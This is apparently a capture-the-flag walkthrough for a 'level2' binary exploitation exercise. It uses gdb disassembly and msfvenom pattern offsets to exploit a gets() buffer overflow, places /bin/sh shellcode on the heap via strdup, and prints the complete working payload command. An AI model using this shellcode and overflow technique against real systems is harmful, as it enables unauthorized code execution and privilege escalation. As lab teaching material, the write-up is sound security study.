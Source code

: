 #Title  
  
## Disassembled code  
`gdb -batch -ex "set disassembly-flavor intel" -ex "disas main" -ex "disas p" "level2" | GREP_COLOR='01;33' grep  --color=always -z '+36\|+39\|+44\|+49' | GREP_COLOR='01;32' grep --color=always -z '+51\|+56\|+59\|+63\|+66\|+71\|+78' | GREP_COLOR='01;31' grep -z '+83\|+86\|+89\|+89\|+94\|+97\|+100\|+105\|+106'`  
![alt IMAGE] (Ressources/disassembled.png)  
  
  
##walkthrough  
At *p+25, we can see a call to the gets function, we can use another way to enter manualy the value when we come to this instruction. We'll use the '<<<' redirection at the binary argument to enter the gets value.
  
At *p+36 we can see we move the [ebp-0xc] value in eax, [ebp-0xc] represents the 4 bytes from the 80th that we passed to GETS, we can see below:  
  
![alt IMAGE] (Ressources/p_36_value_ebp_0xc.png)  

We have find this offset with msfvenom and pattern\_offset tools like the two pictures below:  
  
Generate pattern with msfvenom:  
![alt IMAGE] (Ressources/msf_venom_p_36.png)  
  
We can see at the 0xffffd08c address ($ebp-0xc) we have the pattern (0x37634136) for get the offset with the pattern\_offset tool:  
  
![alt IMAGE] (Ressources/p_36_pattern_offset_tool.png)  
  
At *p+39, we can see the *and* operator, it keep just equal bits to both operands. In our case wedo not have to have a *b* in first bit, because the program don't segfault in this case.

![alt IMAGE] (Ressources/info_proc_all.png)  
  
That's a shame, because we have our 80 bytes are on the stack and the stack addres beginng by 0xb, you can show this *0x41* bytes:  
  
![alt IMAGE] (Ressources/stack_bytes.png)  
  
we can see at *p+100 strdup is called with our payload in argument  
  
![alt IMAGE] (Ressources/p_100_strdup_args.png)  
  
strdup return a string on the heap, we can show that on the return register (eax).

![alt IMAGE] (Ressources/p_105_strdup_return.png)  
  
We can see It's not a 0xb address, we can put a payload here  
  
I was get a payload on [shellstorm](http://shell-storm.org/shellcode/files/shellcode-841.php)
  
Let's test this on gdb:  
`(gdb) r <<< $(python -c "print  '\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80' + 'A' * (80 - 21) + '\x08\xa0\x04\x08'")`  
  
![alt IMAGE] (Ressources/exploit_with_gdb.png)

Ok, /bin/dash is started on gdb and exit directly, we can use this command to get the level3 right:
`(python -c "print  '\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80' + 'A' * (80 - 21) + '\x08\xa0\x04\x08'";cat) | ./level2`
  
![alt IMAGE] (Ressources/finish.png)
